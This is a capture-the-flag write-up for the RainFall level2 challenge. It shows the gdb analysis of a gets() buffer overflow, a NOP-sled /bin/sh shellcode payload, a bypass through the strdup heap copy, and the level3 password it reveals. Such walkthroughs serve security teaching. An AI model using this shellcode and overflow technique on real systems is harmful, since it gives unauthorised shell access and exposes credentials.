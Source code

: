 1. Let's run `level2` exec to first see the behavior. It waits for an input, and then prints it to stdout :
    ```
    level2@RainFall:~$ ./level2
    coucou
    coucou
    ```

2. `gdb ./level2` then `set disassembly-flavor intel` and then `disas main`

3. We see that the `main` function calls the `p` function.

4. `disas p` => we see that the `gets` function is called. we know that this function does not check for buffer overflow so
    we could use a bof here.
    We see that the buffer given as argument starts at address `$ebp-0x4c` (cf line <+19> where this addres is loaded into $eax and then stored on the stack as argument to gets function call). This represents **76 bytes**.
    Then at $ebp is stored the value of the stackbase pointer for the main function (which will be retrieved when getting out of p()) => you can check this by breaking before the p function call in main and check value inside $ebp `i r $ebp`, and then breaking inside the p() function and check the content at $ebp address (`i r $ebp` to get address stored in $ebp, and then `x/8wx addr`).
    So we have **76 + 4 = 80 bytes** before erasing the main() next instruction stored location ($eip at time of p() call).
    With our shellcode representing 45 bytes, we have to fill up the buffer with 35 NOP bytes (`\x90`), then our sheell code, and then an address inside the NOP sequence (does not matter, the program will jump to next instruction if current instruciton is NOP).
    Let's find the address at the beginning of our buffer : `x/20wx $ebp-0x4c`, which gives **0xbffff69c**. We can take whichever address in the range formed by this address and this address + 35 bytes. Let's take +0x10 or +16 bytes : **0xbffff6ac**

5. Let's launch our bof:

    ```
    python -c 'print("\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xac\xf6\xff\xbf")' > /tmp/exploit

    cat /tmp/exploit - > ./level2
    ```

    *Note : the memory works according to the little endian convention : the highest byte is on the right, the lowest on the left in one address. That is why we have to reverse it* 

6. Result : The address we wanted to call for our bof (the one stored where the nedxt instruction of the main is stored) is
    printed in stdout, and the program quits.
    ```
    level2@RainFall:~$ cat /tmp/exploit - | ./level2
    (0xbffff6ac)
    level2@RainFall:~$
    ```

    Indeed - see `source.c` file, after teh call to the gets function, the program checks that the value stored at `$ebp + 0x4`, meaning the value stored at the address where the $eip of the main() function is supposed to be stored, is not a stack based address (it checks that it does not start with `b`). If it does, the program prints out the address and exit, not returning to the main, hence not executing the next instruciton in main => our bof does not work.


7. We can see that if the address stored there is not a stack based address, the program call `strdup` with the address of our 
    buffer as argument. `strdup` will malloc a new address memory (hence in the heap), of the size of our buffer, fill up this new memory location with the content of our buffer, and returns the address of this newly allocated memory. We can recover this new memory location with the content of our buffer : it is stored in `$eaax` register when the function returns.
    To do this, we juste set a breakpoint right after the `strdup` function call (at **0x0804853d**) and check the value stored in $eax (`i r $eax`). We find that this newly allocated buffer is stored at address **0x804a008**.
    So we have to store this address as the next instruction of the main() function ($eip of the main function) instead of the one of our buffer on the stack. Let's try our exploit with this address:

    ```
    python -c 'print("\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' > /tmp/exploit

    level2@RainFall:~$ cat /tmp/exploit - | ./level2
    ������������������������������������^�1��F�F
                                            �
                                             ���V
                                                  ̀1�����/bin/s�
    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```
